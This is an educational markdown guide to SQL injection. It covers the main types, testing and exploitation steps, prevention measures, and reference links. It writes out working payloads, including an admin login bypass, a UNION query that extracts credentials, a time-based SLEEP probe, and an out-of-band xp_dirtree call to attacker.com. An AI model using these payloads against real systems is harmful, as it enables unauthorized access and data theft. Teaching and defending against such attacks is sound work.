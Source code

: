 # SQL Injection

## Table Of Contents

- [What Is SQL Injection](#what-is-sql-injection)
- [How To Find SQL Injection Vulnerabilities](#how-to-find-sql-injection-vulnerabilities)
- [How To Exploit SQL Injection Vulnerabilities](#how-to-exploit-sql-injection-vulnerabilities)
- [How To Prevent SQL Injection Vulnerabilities](#how-to-prevent-sql-injection-vulnerabilities)

---

## What Is SQL Injection?

SQL Injection is a vulnerability that allows an attacker to interfere with the SQL queries an application makes to a database.

#### Example:
1. User Input:

`Username: admin'-- Password: (leave blank)`

2. Backend Query:

```sql
SELECT * FROM users WHERE username = 'admin'--' AND password = '';
```

3. Result: 
   * Attacker gains unauthorized access as the admin user.

### Impact of SQL Injection Attacks

- **Confidentiality**: SQLi can expose sensitive information, such as usernames and passwords.
- **Integrity**: SQLi can alter database data.
- **Availability**: SQLi can delete or modify data, impacting application functionality.
- **Remote Code Execution**: SQLi can execute commands on the operating system.

---

### Types of SQL Injection

1. **In-Band (Classic)**

   - **Error-Based SQLi**:
     Exploits database error messages to gain information.  
     **Example**:
     ```vbnet
     Input: www.example.com/app.php?id='
     Output: Error: "You have an error in your SQL syntax..."
     ```

   - **Union-Based SQLi**:
     Combines the results of two queries using the `UNION` SQL operator.  
     **Example**:
     ```vbnet
     Input: www.example.com/app.php?id=' UNION SELECT username, password FROM users--
     Output:
     admin / password123  
     user / password456
     ```

2. **Inferential (Blind)**

   - **Boolean-Based SQLi**:
     Exploits differences in application responses based on TRUE or FALSE conditions.  
     **Example**:
     ```python
     Payload: id=1 AND 1=1 (True)
     Payload: id=1 AND 1=2 (False)
     ```

   - **Time-Based SQLi**:
     Relies on database delays to infer information.  
     **Example**:
     ```css
     Payload: id=1 AND IF(SUBSTRING(password, 1, 1)='a', SLEEP(5), 0)
     ```

3. **Out-of-Band (OAST)**

   - Exploits out-of-band channels, such as DNS or HTTP, to exfiltrate data.  
     **Example**:
     ```arduino
     Payload: '; exec master..xp_dirtree '//attacker.com/a'--
     ```

---

## How to Find SQL Injection Vulnerabilities

### Black-Box Testing
- Map the application and test its inputs.
- Submit SQL-specific payloads such as `'` or `"` and look for errors.
- Submit Boolean conditions like `OR 1=1` or `OR 1=2` to observe differences in responses.
- Use time-delay payloads to test for Time-Based SQLi.
- Submit out-of-band payloads to monitor for external network interactions.

### White-Box Testing
- Enable web server and database logging.
- Perform a regex search for database queries in the code.
- Review all input points in the application code for potential SQLi vulnerabilities.
- Ensure proper input validation and query parameterization.

---

## How to Exploit SQL Injection Vulnerabilities

### Exploiting Error-Based SQLi
- Submit SQL-specific characters like `'` or `"` and observe error messages.
- Use the information revealed in errors to refine the payload.

### Exploiting Union-Based SQLi
1. Determine the number of columns using `ORDER BY` or `NULL` payloads:

   ```sql
   Input: UNION SELECT NULL--
   Input: UNION SELECT NULL, NULL--
   ```

2. Identify columns with useful data types by injecting strings into each column:
`Payload: UNION SELECT 'test', NULL--`

3. Extract data by combining results with the UNION operator.

### Exploiting Boolean-Based SQLi

Submit payloads with Boolean conditions to observe responses:

```sql
Input: id=1 AND 1=1 (True)
Input: id=1 AND 1=2 (False)
```

### Exploiting Time-Based SQLi

Use payloads that delay responses:

```sql
Input: id=1 AND IF(SUBSTRING(password, 1, 1)='a', SLEEP(5), 0)
```

### Exploiting Out-of-Band SQLi

Submit payloads to trigger out-of-band interactions:

```sql
Payload: '; exec master..xp_dirtree '//attacker.com/a'--
```
## How to Prevent SQL Injection Vulnerabilities

### Primary Defenses

1. **Prepared Statements (Parameterized Queries)**:
   - Use placeholders for user inputs instead of directly embedding them into queries.

2. **Stored Procedures**:
   - Use parameterized stored procedures for database interactions.

3. **Whitelist Input Validation**:
   - Define and enforce valid input formats.

4. **Escaping User Input**:
   - Escape special characters in user inputs as a last resort.

---

### Additional Defenses

1. **Enforce Least Privilege**:
   - Restrict database user permissions to only what is necessary.

2. **Database Hardening**:
   - Apply CIS benchmarks and security patches.

3. **Input Validation**:
   - Validate user inputs against a strict whitelist.

---

## Resources

- [Web Security Academy - SQL Injection](https://portswigger.net/web-security/sql-injection)
- [OWASP - SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- [OWASP - SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
- [PentestMonkey - SQL Injection Cheat Sheet](http://pentestmonkey.net/category/cheat-sheet/sql-injection)
- [sqlmap](https://github.com/sqlmapproject/sqlmap)

